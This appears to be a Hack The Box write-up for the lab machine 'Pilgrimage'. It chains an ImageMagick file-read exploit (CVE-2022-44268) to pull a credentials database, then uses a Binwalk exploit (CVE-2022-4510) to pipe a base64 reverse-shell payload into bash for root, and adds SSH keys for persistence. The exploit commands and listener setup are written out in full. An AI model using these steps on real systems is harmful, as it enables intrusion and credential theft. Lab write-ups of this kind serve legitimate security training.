





+++
title = "Pilgrimage"
date = "2024-03-24"
description = "This is an easy Linux box."
[extra]
cover = "cover.png"
toc = true
+++

# Information

**Difficulty**: Easy

**OS**: Linux

**Release date**: 2023-06-24

**Created by**: [coopertim13](https://app.hackthebox.com/users/55851)

# Setup

I'll attack this box from a Kali Linux VM as the `root` user — not a great
practice security-wise, but it's a VM so it's alright. This way I won't have to
prefix some commands with `sudo`, which gets cumbersome in the long run.

I like to maintain consistency in my workflow for every box, so before starting
with the actual pentest, I'll prepare a few things:

1. I'll create a directory that will contain every file related to this box.
   I'll call it `workspace`, and it will be located at the root of my filesystem
   `/`.

1. I'll create a `server` directory in `/workspace`. Then, I'll use
   `httpsimpleserver` to create an HTTP server on port `80` and
   `impacket-smbserver` to create an SMB share named `server`. This will make
   files in this folder available over the Internet, which will be especially
   useful for transferring files to the target machine if need be!

1. I'll place all my tools and binaries into the `/workspace/server` directory.
   This will come in handy once we get a foothold, for privilege escalation and
   for pivoting inside the internal network.

I'll also strive to minimize the use of Metasploit, because it hides the
complexity of some exploits, and prefer a more manual approach when it's not too
much hassle. This way, I'll have a better understanding of the exploits I'm
running, and I'll have more control over what's happening on the machine.

Throughout this write-up, my machine's IP address will be `10.10.14.4`. The
commands ran on my machine will be prefixed with `❯` for clarity, and if I ever
need to transfer files or binaries to the target machine, I'll always place them
in the `/tmp` or `C:\tmp` folder to clean up more easily later on.

Now we should be ready to go!

# Host `10.10.11.219`

## Scanning

### Ports

As usual, let's start by initiating a port scan on Pilgrimage using a TCP SYN
`nmap` scan to assess its attack surface.

```sh
❯ nmap -sS "10.10.11.219" -p-
```

```
<SNIP>
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
<SNIP>
```

Let's also check the 500 most common UDP ports.

```sh
❯ nmap -sU "10.10.11.219" --top-ports "500"
```

```
<SNIP>
```

### Fingerprinting

Following the ports scans, let's gather more data about the services associated
with the open TCP ports we found.

```sh
❯ nmap -sS "10.10.11.219" -p "22,80" -sV
```

```
<SNIP>
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp open  http    nginx 1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
<SNIP>
```

Alright, so `nmap` managed to determine that Pilgrimage is running Linux, and
the version of SSH suggests that it might be Debian.

### Scripts

Let's run `nmap`'s default scripts on the TCP services to see if they can find
additional information.

```sh
❯ nmap -sS "10.10.11.219" -p "22,80" -sC
```

```
<SNIP>
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   3072 20:be:60:d2:95:f6:28:c1:b7:e9:e8:17:06:f1:68:f3 (RSA)
|   256 0e:b6:a6:a8:c9:9b:41:73:74:6e:70:18:0d:5f:e0:af (ECDSA)
|_  256 d1:4e:29:3c:70:86:69:b4:d7:2c:c8:0b:48:6e:98:04 (ED25519)
80/tcp open  http
|_http-title: Did not follow redirect to http://pilgrimage.htb/
<SNIP>
```

The `http-title` script indicates that the Nginx server redirects to
`http://pilgrimage.htb/`. I'll add it to my `/etc/hosts` file.

```sh
❯ echo "10.10.11.219 pilgrimage.htb" >> "/etc/hosts"
```

Now I'll run `nmap`'s default scripts on the web server once again.

```sh
❯ nmap -sS "pilgrimage.htb" -p "80" -sC
```

```
<SNIP>
PORT   STATE SERVICE
80/tcp open  http
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Pilgrimage - Shrink Your Images
| http-git: 
|   10.10.11.219:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: Pilgrimage image shrinking service initial commit. # Please ...
<SNIP>
```

The `http-git` script found a Git repository.

## Services enumeration

### Nginx

#### Exploration

Let's browse to `http://pilgrimage.htb/`.


It's a website to shrink images.

#### Fingerprinting

Let's fingerprint the technologies used by this web page with the
[Wappalyzer](https://www.wappalyzer.com/) extension.


This reveals that this web page is using PHP.

Moreover, the footer of the website leaks that it's using a template made by
[TemplateMo](https://templatemo.com/), and the source code of the web page
specifies that it's the
[Woox Travel Template](https://templatemo.com/tm-580-woox-travel) template.

#### Exploration

Let's upload an image and press on 'Shrink'.

A link gets added to the DOM under the form. In my case, it's
`http://pilgrimage.htb/shrunk/65f6e5d21c71c.png`. Therefore, I assume that the
shrunked images are stored in `/shrunk`.

I also tried to upload a text file, but in this case a 'Image shrink failed'
message is added to the DOM.

#### Under the hood

When we upload an image to shrink it, a POST request is sent to `/` with
multipart form data like:

```
-----------------------------400170119923520700911158460083
Content-Disposition: form-data; name="toConvert"; filename="image.png"
Content-Type: image/png

<CONTENT>

-----------------------------400170119923520700911158460083--
```

If the processing is successful, the response `Location` header is set to
`/?message=http://pilgrimage.htb/shrunk/<NUMBER>.png&status=success`.

If it's not, the `Location` header is set to
`/?message=Image shrink failed&status=fail`.

#### File upload

After a bit of testing, I determined that the server doesn't validate the MIME
type specified in the upload request. No matter which MIME type we specify for
our file, the response has a `Location` header corresponding to a valid
processing.

However, the magic byte of the file we input seems to be validated. And no
matter the extension of the file we input, the shrunked image always has an
extension corresponding to its magic byte.

Besides, only the `image/png` and `image/jpeg` MIME types are accepted by the
frontend. I tried other extensions, and it looks like these are indeed the only
two MIME types corresponding to supported file types.

Furthermore, the filename of the processed image looks pseudo-random, since the
first characters upon successive requests are the same.

#### Exploration

The website also indicates that we can create an account to save the shrunked
images.

Let's browse to `http://pilgrimage.htb/register.php`:



We can sign up using only a username and a password. I'll create a `dummy` user.



We're redirected to `/dashboard.php`, and we see a table with the original image
name and the shrunked image URL corresponding to the images uploaded by our
user. Since I just created this account, it's empty.

I'll upload a .PNG image.



It gets added to the table.

Invalid file processings are not recorded in the table though, so I don't see
how this functionality could be useful to us.

There's also a `/login.php` page that we can use to log in using a username and
a password.

I launched a Cluster bomb attack on Burp Suite using
[this wordlist](https://github.com/danielmiessler/SecLists/blob/master/Usernames/top-usernames-shortlist.txt)
for the usernames and
[this wordlist](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/top-passwords-shortlist.txt)
for the passwords to test for common credentials. Unfortunately, they all
failed.

#### Exploring the Git repository

Back in the [Scripts](#scripts) section, we found that the website hosted a Git
repository. Let's retrieve its content.

```sh
❯ git-dumper "http://pilgrimage.htb/.git/" "/workspace/git"
```

It finds loads of files.

I'll open this repository with [GitKraken](https://www.gitkraken.com/).



There's a single commit to the `master` branch with the comment 'Pilgrimage
image shrinking service initial commit'.

Since we know that the shrinking logic is in the `index.php` file, let's start
by inspecting this file.

```php
<?php
session_start();
require_once "assets/bulletproof.php";

function isAuthenticated()
{
    return json_encode(isset($_SESSION["user"]));
}

function returnUsername()
{
    return "\"" . $_SESSION["user"] . "\"";
}

if ($_SERVER["REQUEST_METHOD"] === "POST") {
    $image = new Bulletproof\Image($_FILES);
    if ($image["toConvert"]) {
        $image->setLocation("/var/www/pilgrimage.htb/tmp");
        $image->setSize(100, 4000000);
        $image->setMime(["png", "jpeg"]);
        $upload = $image->upload();
        if ($upload) {
            $mime = ".png";
            $imagePath = $upload->getFullPath();
            if (mime_content_type($imagePath) === "image/jpeg") {
                $mime = ".jpeg";
            }
            $newname = uniqid();
            exec(
                "/var/www/pilgrimage.htb/magick convert /var/www/pilgrimage.htb/tmp/" .
                    $upload->getName() .
                    $mime .
                    " -resize 50% /var/www/pilgrimage.htb/shrunk/" .
                    $newname .
                    $mime
            );
            unlink($upload->getFullPath());
            $upload_path = "http://pilgrimage.htb/shrunk/" . $newname . $mime;
            if (isset($_SESSION["user"])) {
                $db = new PDO("sqlite:/var/db/pilgrimage");
                $stmt = $db->prepare(
                    "INSERT INTO `images` (url,original,username) VALUES (?,?,?)"
                );
                $stmt->execute([
                    $upload_path,
                    $_FILES["toConvert"]["name"],
                    $_SESSION["user"],
                ]);
            }
            header("Location: /?message=" . $upload_path . "&status=success");
        } else {
            header("Location: /?message=Image shrink failed&status=fail");
        }
    } else {
        header("Location: /?message=Image shrink failed&status=fail");
    }
}
?>
<SNIP>
```

In fact, the website uses the Bulletproof PHP library to handle image uploads.

The image processing is the most interesting part. If a POST request is received
with an image to upload, the website places it in the
`/var/www/pilgrimage.htb/tmp` folder. It generates a new name with the `uniqid`
function, and then it executes the OS command
`/var/www/pilgrimage.htb/magick convert /var/www/pilgrimage.htb/tmp/` with the
uplodaded filename, MIME type, `-resize 50% /var/www/pilgrimage.htb/shrunk/`
string, the new name and the new MIME type.

If the user is logged in, the website updates a SQLite database stored at
`/var/db/pilgrimage` to save the original filename and the processed image URL.

#### Known vulnerabilities

One thing that struck me here is that the website specifically uses the `magick`
binary included in the repository, instead of using the binary on the system.
There's probably something behind this, so let's retrieve the version of the
given binary:

```sh
❯ /workspace/git/magick -version
```

```
Version: ImageMagick 7.1.0-49 beta Q16-HDRI x86_64 c243c9281:20220911 https://imagemagick.org
Copyright: (C) 1999 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): bzlib djvu fontconfig freetype jbig jng jpeg lcms lqr lzma openexr png raqm tiff webp x xml zlib
Compiler: gcc (7.5)
```

It's using the version `7.1.0-49`.

And if we search [ExploitDB](https://www.exploit-db.com/) for
`ImageMagick 7.1.0-49`, we find
[ImageMagick 7.1.0-49 - Arbitrary File Read](https://www.exploit-db.com/exploits/51261)
([CVE-2022-44268](https://nvd.nist.gov/vuln/detail/CVE-2022-44268))!

#### LFI ([CVE-2022-44268](https://nvd.nist.gov/vuln/detail/CVE-2022-44268))

[CVE-2022-44268](https://nvd.nist.gov/vuln/detail/CVE-2022-44268) is an
information disclosure vulnerability affecting ImageMagick version `7.1.0-49`.
When this utility parses a specifically crafted PNG file, like when performing
the resizing operation, the resulting image can embed the content of an
arbitrary file.

You can read more about it on
[Metabase Q](https://www.metabaseq.com/imagemagick-zero-days/).

##### Exploitation

I'll follow the instructions of
[this PoC](https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC)
to exploit it.

The goal is to read the content of the `/var/db/pilgrimage` file, which is used
by the website to store user-related data.

I'll start by adding this text to an existing `image.png` file:

```sh
❯ pngcrush -text "a" "profile" "/var/db/pilgrimage" "/workspace/image.png"
```

Let's check if it worked:

```sh
❯ exiv2 -pS "/workspace/pngout.png"
```

```
<SNIP>
  175715 | tEXt  |      26 | profile./var/db/pilgrimage     | 0x704d8d3d
<SNIP>
```

It did.

Now let's ask the website to shrink the image containing our payload:

```sh
❯ curl -s -i "http://pilgrimage.htb/" -X "POST" -F "toConvert=@/workspace/pngout.png" | grep -oP "(?<=message=)[^&]+"
```

```
http://pilgrimage.htb/shrunk/65f75d64c3f73.png
```

Then, let's download the processed image.

```sh
❯ wget "http://pilgrimage.htb/shrunk/65f75d64c3f73.png" -O "/workspace/processed.png"
```

Finally, let's extract the content of the SQLite binary hidden inside the
processed image.

```sh
❯ identify -verbose "/workspace/processed.png" | grep -Pv "^( |Image)" | xxd -r -p > "/workspace/pilgrimage.sqlite"
```

#### Inspecting `/var/db/pilgrimage`

Now that we have extracted the SQLite database used by the website, let's
explore it.

```sh
❯ sqlite3 "/workspace/pilgrimage.sqlite"
```

```
sqlite>
```

#### Tables

Let's see which tables are available.

```sh
sqlite> .tables
```

```
images  users
```

The `images` table is probably much less interesting than `users`.

#### `users`'s columns

Let's continue our enumeration of this database by checking the content of the
`users` table.

```sh
sqlite> .schema users
```

```
CREATE TABLE users (username TEXT PRIMARY KEY NOT NULL, password TEXT NOT NULL);
```

Okay, so this table contains 2 columns.

#### `users`'s columns content

Let's retrieve the content of the `username` and `password` columns.

```sh
sqlite> SELECT username, password FROM users;
```

```
emily|abigchonkyboi123
```

There's a single set of credentials: `emily` with the password
`abigchonkyboi123`.

## Foothold (SSH)

Let's try the credentials we just found to connect to Pilgrimage over SSH.

```sh
❯ ssh "emily@10.10.11.219"
```

```
The authenticity of host '10.10.11.219 (10.10.11.219)' can't be established.
<SNIP>
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
<SNIP>
emily@10.10.11.219's password:
<SNIP>
emily@pilgrimage:~$
```

Nice!

## Getting a lay of the land

If we run `whoami`, we see that we got a foothold as `emily` (obviously).

### Architecture

What is Pilgrimage's architecture?

```sh
emily@pilgrimage:~$ uname -m
```

```
x86_64
```

It's using x86_64. Let's keep that in mind to select the appropriate binaries.

### Distribution

Let's see which distribution Pilgrimage is using.

```sh
emily@pilgrimage:~$ cat "/etc/os-release"
```

```
PRETTY_NAME="Debian GNU/Linux 11 (bullseye)"
NAME="Debian GNU/Linux"
VERSION_ID="11"
VERSION="11 (bullseye)"
VERSION_CODENAME=bullseye
ID=debian
HOME_URL="https://www.debian.org/"
SUPPORT_URL="https://www.debian.org/support"
BUG_REPORT_URL="https://bugs.debian.org/"
```

Okay, so it's Debian 11.

### Kernel

Let's find the kernel version of Pilgrimage.

```sh
emily@pilgrimage:~$ uname -r
```

```
5.10.0-23-amd64
```

It's `5.10.0`.

### Users

Let's enumerate all users.

```sh
emily@pilgrimage:~$ grep ".*sh$" "/etc/passwd" | cut -d ":" -f "1" | sort
```

```
emily
root
```

There's `emily` (us) and `root`.

### Groups

Let's enumerate all groups.

```sh
emily@pilgrimage:~$ cat "/etc/group" | cut -d ":" -f "1" | sort
```

```
adm
audio
backup
bin
cdrom
crontab
daemon
dialout
dip
disk
emily
fax
floppy
games
gnats
input
irc
kmem
kvm
_laurel
list
lp
mail
man
messagebus
netdev
news
nogroup
operator
plugdev
proxy
render
root
sasl
shadow
src
ssh
staff
sudo
sys
systemd-coredump
systemd-journal
systemd-network
systemd-resolve
systemd-timesync
tape
tty
users
utmp
uucp
video
voice
www-data
```

### NICs

Let's gather the list of connected NICs.

```sh
emily@pilgrimage:~$ ip a
```

```
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:cc:ed brd ff:ff:ff:ff:ff:ff
    altname enp3s0
    altname ens160
    inet 10.10.11.219/23 brd 10.10.11.255 scope global eth0
       valid_lft forever preferred_lft forever
```

There's an Ethernet interface and the loopback interface.

### Hostname

What is Pilgrimage's hostname?

```sh
emily@pilgrimage:~$ hostname
```

```
pilgrimage
```

Yeah I know, very surprising.

## System enumeration

### Flags

If we check our home folder, we find the user flag.

```sh
emily@pilgrimage:~$ cat "/home/emily/user.txt"
```

```
501ecc040b61dc1e9708cf12172c85f5
```

### Inspecting `/usr/sbin/malwarescan.sh`

If we run `pspy`, we see that upon starting the box, a cronjob executed the
`/usr/sbin/malwarescan.sh` script using Bash as `root`:

```sh
#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
    filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
    binout="$(/usr/local/bin/binwalk -e "$filename")"
    for banned in "${blacklist[@]}"; do
        if [[ "$binout" == *"$banned"* ]]; then
            /usr/bin/rm "$filename"
            break
        fi
    done
done
```

This script uses `inotifywait` to monitor for file creation events in the
`/var/www/pilgrimage.htb/shrunk` directory. It then retrieves the filename, and
runs `binwalk` on it to check if it contains unwanted content. If it does, the
file is deleted.

### OS command injection

Since this script executes OS commands using user-supplied input, it could be
vulnerable to an OS command injection.

However, despite all of my attempts, I failed to exploit it.

### Known vulnerabilities

After a bunch of enumeration, it turns out that the script is using Binwalk
version `v2.3.2`:

```
emily@pilgrimage:~$ /usr/local/bin/binwalk
```

```
Binwalk v2.3.2
Craig Heffner, ReFirmLabs
https://github.com/ReFirmLabs/binwalk

<SNIP>
```

If we search [ExploitDB](https://www.exploit-db.com/) for `Binwalk 2.3.2`, we
find
[Binwalk v2.3.2 - Remote Command Execution (RCE)](https://www.exploit-db.com/exploits/51249)
([CVE-2022-4510](https://nvd.nist.gov/vuln/detail/CVE-2022-4510))!

## Privilege escalation ([CVE-2022-4510](https://nvd.nist.gov/vuln/detail/CVE-2022-4510))

[CVE-2022-4510](https://nvd.nist.gov/vuln/detail/CVE-2022-4510) is a
vulnerability affecting Binwalk versions `2.1.2b` through `2.3.3`. This
vulnerability lies in the `extractor` function in `plugins/unpfs.py`, which
allows an attacker to extract files at arbitrary locations when Binwalk is run
in extraction mode. The attacker can even obtain RCE by building a PFS
filesystem that extracts a malicious Binwalk module into the folder
`.config/binwalk/plugins`.

You can read more about it on
[OneKey](https://onekey.com/blog/security-advisory-remote-command-execution-in-binwalk/).

### Preparation

The goal is to obtain a reverse shell.

First, I'll setup a listener to receive the shell.

```sh
❯ rlwrap nc -lvnp "9001"
```

Then, I'll choose the Base64 encoded version of the 'Bash -i' payload from
[RevShells](https://www.revshells.com/) configured to obtain a `/bin/bash`
shell.

I'll save it as the `BASE64_REVSHELL_PAYLOAD` shell variable.

Then, I'll use
[this PoC](https://github.com/adhikara13/CVE-2022-4510-WalkingPath) to add this
payload to an `image.png` file.

```sh
❯ python "/workspace/walkingpath.py" "command" "/workspace/image.png" --command "/bin/echo $BASE64_REVSHELL_PAYLOAD | /usr/bin/base64 -d | /bin/bash -i"
```

### Exploitation

Let's upload the generated `binwalk_exploit.png` file to the
`/var/www/pilgrimage.htb/shrunk` folder:

```sh
❯ scp "/workspace/binwalk_exploit.png" "emily@10.10.11.219:/var/www/pilgrimage.htb/shrunk"
```

If we check our listener:

```
connect to [10.10.14.4] from (UNKNOWN) [10.10.11.219] 35290
<SNIP>
root@pilgrimage:~/quarantine#
```

It caught the reverse shell!

### Spawning a pty & establishing persistence

Let's use SSH to spawn a pty and to establish persistence.

Our home folder doesn't contain a `.ssh` folder, so I'll create one. Then I'll
create a private key, and I'll add the corresponding public key to
`authorized_keys`. Finally, I'll connect over SSH to Pilgrimage as `root`.

## System enumeration

If we run `whoami`, we see that we're `root`!

### Flags

As usual, we can find the root flag in our home folder.

```sh
root@pilgrimage:~# cat "/root/root.txt"
```

```
3dc1750b49d9b2e465d9b41aa1678e29
```

# Afterwords



That's it for this box! 🎉

I rated the user flag as 'Not too easy' and the root flag as 'Easy'. I found the
foothold a bit hard to obtain, since it first required to find the hosted Git
repository to discover that ImageMagick was vulnerable to a LFI. Then, we could
retrieve the database used to store user-related information, which contains
credentials for `emily`. I found the privilege escalation a bit easier, but
still quite hard. The box ran a script that wasn't directly vulnerable, but that
used a binary that was vulnerable to RCE.

Thanks for reading!
